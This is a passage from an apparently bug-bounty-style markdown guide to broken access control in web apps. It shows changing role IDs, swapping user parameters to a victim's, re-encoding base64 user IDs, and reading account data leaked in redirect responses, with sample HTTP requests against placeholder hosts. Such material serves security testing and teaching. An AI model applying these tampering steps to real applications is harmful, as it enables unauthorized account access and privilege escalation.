    3) We can easily manipulate the above request by changing the `roleid` to be `1`, and if you don't know the `role_id`, try to bruteforce it with certain limit.
---
### 5) User ID controlled by request parameter

   1) Check each and every parameter and try to manipulate it with others.
   2) Consider an application has a user account dashboard, so everytime when user click on `my account` , there is a request parameter i..e `/myaccount/?name=user_name` , 
   3) An attacker could manipulate the `?name=` or anyother parameter to someone else.  
                  
           `GET /my-account?id=VICTIM_NAME HTTP/1.1
			Host: subdomain.target.com
			Cookie: session=lJ52q5GoqbgcnbZB0epyRJBWKyMdEdOR
			User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
			Referer: https://subdomain.target.com/my-account
			Connection: close`
---
### 6) User ID controlled by request parameter, with unpredictable user IDs

   1) Always check URL parameters, sometimes applications uses encoded string/hash of the name/id or some kind of key,
   2) Try to change it with others
   Eg.Consider an application has a URL parameter like : `https://target.com/myaccount/?userid=aGFja2VyCg==`

      `aGFja2VyCg== : 'hacker'`

   3) So we can easily changed it to victim's.

      `dmljdGltCg== : victim`
---
### 7) User ID controlled by request parameter with data leakage in redirect
 
   1) Check the redirected responses,it might be possible that they leaked some info.
   2) Consider from above case, now application strict the security and instead of response, it redirect to login page on incorrect/invalid input.
   3) Eg. the request look like this : 
         
           `GET /my-account?id=attacker HTTP/1.1
			Host: abc.target.com
			Cookie: session=Yz4XhRIBaFMrHLHfmcNkNBHAKuJwB2QG
			User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
			Connection: close`
      
   4) And from above request if we change the `id` parameter to `victim`. We will be redirected and the response look like this...

           `HTTP/1.1 302 Found
			Location: /login
			Content-Type: text/html; charset=utf-8
			Cache-Control: no-cache
			Connection: close
			Content-Length: 3395	
          ...
          <!DOCTYPE html>
		   <h1>
		   	My Account
		   </h1>
			<div id=account-content>
				<p>Your username is: Victim</p>
			</div> 	
			<div>